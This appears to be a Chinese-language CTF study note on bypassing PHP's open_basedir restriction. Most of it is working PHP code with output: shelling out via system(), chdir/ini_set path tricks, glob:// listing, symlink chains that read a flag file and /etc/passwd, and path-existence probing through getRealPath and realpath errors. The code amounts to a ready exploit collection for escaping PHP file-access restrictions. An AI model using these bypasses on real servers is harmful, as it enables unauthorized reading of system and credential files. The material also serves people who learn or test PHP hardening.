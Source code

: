 ## open_basedir绕过

>`open_basedir`将php所能打开的文件限制在指定的目录中,当程序使用如`file_get_contents()`函数来读取文件时,会检查文件位置,如果不在指定的目录下,会拒绝打开

`php.ini`中设置`open_basedir=/var/www/html`

```php
<?php
var_dump(scandir('.'));
echo '<br><br>';
var_dump(scandir('/'));
?>
```

```
array(9) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(13) "bjd_ezphp.php" [3]=> string(7) "dropbox" [4]=> string(8) "flag.php" [5]=> string(12) "fuzz_rce.php" [6]=> string(12) "geek_rce.php" [7]=> string(8) "phar.php" [8]=> string(8) "test.php" }


Warning: scandir(): open_basedir restriction in effect. File(/) is not within the allowed path(s): (/var/www/html) in /var/www/html/test.php on line 4

Warning: scandir(/): failed to open dir: Operation not permitted in /var/www/html/test.php on line 4

Warning: scandir(): (errno 1): Operation not permitted in /var/www/html/test.php on line 4
bool(false) 
```

### 利用system函数绕过

> 相当于直接执行系统命令,不受open_basedir影响

```php
<?php
var_dump(scandir('/'));
echo '<br><br>';
system("cd / && ls");
?>
```

```

Warning: scandir(): open_basedir restriction in effect. File(/) is not within the allowed path(s): (/var/www/html) in /var/www/html/test.php on line 2

Warning: scandir(/): failed to open dir: Operation not permitted in /var/www/html/test.php on line 2

Warning: scandir(): (errno 1): Operation not permitted in /var/www/html/test.php on line 2
bool(false)

bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var 
```

## 利用chdir和ini_set绕过

[原理](https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/#poc%E6%B5%8B%E8%AF%95)

```php
<?php
mkdir('test');
chdir('test');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
var_dump(scandir('/'));
?>
```

```
array(22) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(4) "home" [8]=> string(3) "lib" [9]=> string(5) "lib64" [10]=> string(5) "media" [11]=> string(3) "mnt" [12]=> string(3) "opt" [13]=> string(4) "proc" [14]=> string(4) "root" [15]=> string(3) "run" [16]=> string(4) "sbin" [17]=> string(3) "srv" [18]=> string(3) "sys" [19]=> string(3) "tmp" [20]=> string(3) "usr" [21]=> string(3) "var" } 
```

### 利用glob://

```php
<?php
var_dump(scandir('glob:///*'));
?>
```

```
array(19) { [0]=> string(3) "bin" [1]=> string(4) "boot" [2]=> string(3) "dev" [3]=> string(3) "etc" [4]=> string(4) "home" [5]=> string(3) "lib" [6]=> string(5) "lib64" [7]=> string(5) "media" [8]=> string(3) "mnt" [9]=> string(3) "opt" [10]=> string(4) "proc" [11]=> string(4) "root" [12]=> string(3) "run" [13]=> string(4) "sbin" [14]=> string(3) "srv" [15]=> string(3) "sys" [16]=> string(3) "tmp" [17]=> string(3) "usr" [18]=> string(3) "var" } 
```

只能对根目录进行读取,当传入的参数为`glob://*`时会列出open_basedir允许目录下的文件

### 利用symlink

```php
<?php
@mkdir('a/b/c/d/e/f/g/');
symlink('a/b/c/d/e/f/g','temp');
ini_set('open_basedir','/var/www/html:readfile/');
symlink('temp/../../../../../../','readfile');
unlink('temp');
symlink('/var/www/html','temp');
var_dump(file_get_contents('readfile/flag'));
echo '<br><br>';
var_dump(file_get_contents('readfile/etc/passwd'));
unlink('temp');
unlink('readfile');
?>
```

```
string(11) "flag{flag} "

string(926) "root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin "
```

1. 在`/var/www/html`目录下新建`a/b/c/d/e/f/g/`目录
2. 在`/var/www/html`目录下创建链接`temp`到`a/b/c/d/e/f/g`
3. `symlink('temp/../../../../../../','readfile');`等价于`symlink('a/b/c/d/e/f/g/../../../../../../','readfile');`
4. `ini_set('open_basedir','/var/www/html:readfile/');`添加权限

5. `unlink('temp');`然后`symlink('/var/www/html','temp');`等价于`symlink('/var/www/html/../../../../../../','readfile');`相当于`readfile`为根目录

## SplFileInfo::getRealPath或者realpath

用于验证该路径是否存在,没有考虑`open_basedir`

```php
<?php
$info = new SplFileInfo('/flag');
var_dump($info->getRealPath());
$info = new SplFileInfo('/etc/passwd');
var_dump($info->getRealPath());
$info = new SplFileInfo('/etc/wdnmd');
var_dump($info->getRealPath());
?>
```

```
string(5) "/flag"
string(11) "/etc/passwd"
bool(false)
```

用样也可以用`realpath`

```php
<?php
var_dump(realpath('/asdf'));
var_dump(realpath('/flag'));
?>
```

> 注意报错,用报错来判断文件是否存在

```
bool(false)

Warning: realpath(): open_basedir restriction in effect. File(/flag) is not within the allowed path(s): (/var/www/html) in /var/www/html/test.php on line 3
bool(false)
```

